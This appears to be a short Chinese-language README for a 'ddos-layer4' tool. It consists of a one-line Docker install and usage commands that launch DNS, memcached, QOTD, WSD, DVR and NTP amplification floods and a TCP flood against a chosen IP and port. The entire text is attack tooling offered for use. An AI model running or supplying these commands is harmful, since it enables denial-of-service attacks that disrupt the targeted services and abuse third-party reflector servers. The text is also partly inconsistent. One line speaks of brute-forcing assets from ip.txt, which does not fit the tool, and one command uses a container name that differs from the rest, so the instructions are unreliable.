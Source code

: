 ### 安装 （docker）
apt update -y && apt install docker.io -y && apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && docker exec -it ddos /bin/bash

	先把要爆破的资产放入ip.txt中，直接运行下面命令开始爆破。 结果会在当前目录生成res.txt

### 使用
docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &
